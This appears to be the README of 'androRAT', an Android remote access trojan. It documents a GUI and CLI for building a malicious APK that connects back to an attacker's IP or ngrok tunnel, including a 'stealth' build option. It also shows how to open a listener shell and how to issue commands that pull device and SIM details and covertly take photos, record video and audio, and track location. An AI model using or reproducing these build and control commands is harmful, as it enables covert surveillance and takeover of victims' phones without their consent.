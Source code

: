 **GUI Features:**
- 📱 **APK Builder**: Form-based APK configuration with advanced options
- 🔗 **Connection Manager**: Multi-client connection handling
- 📊 **Real-Time Dashboard**: Live device monitoring and status
- 📁 **File Manager**: Intuitive file operations with progress tracking
- 🎥 **Media Controls**: Camera, audio, and screen capture management
- 📍 **Location Tracking**: GPS monitoring with map visualization

### 💻 CLI Mode (Advanced Users)

#### Building APKs

**With IP Address:**
```bash
python3 server/androRAT.py --build -i 192.168.1.100 -p 8080 -o enhanced.apk
```

**With Ngrok (Internet Access):**
```bash
python3 server/androRAT.py --build --ngrok -p 8080 -o tunnel.apk
```

**Advanced Options:**
```bash
python3 server/androRAT.py --build -i 192.168.1.100 -p 8080 -o stealth.apk --icon
```

#### Interactive Shell Mode

```bash
python3 server/androRAT.py --shell -i 0.0.0.0 -p 8080
```

### 📱 Device Control Panel

Access the device control panel by dialing: `*#*#1337#*#*`

*Note: Enable "display pop-up windows running in background" in device settings.*

---

## 🎮 Interactive Commands

Once connected via shell mode, use these commands:

### 📋 Device Information
```
deviceInfo                    # Basic device information
getIP                        # Device IP address
getMACAddress                # MAC address
getSimDetails                # SIM card information
```

### 📷 Media Capture
```
camList                      # Available camera IDs
takepic [cameraID]           # Take photo
startVideo [cameraID]        # Start video recording
stopVideo                    # Stop video recording
startAudio                   # Start audio recording
stopAudio                    # Stop audio recording
```
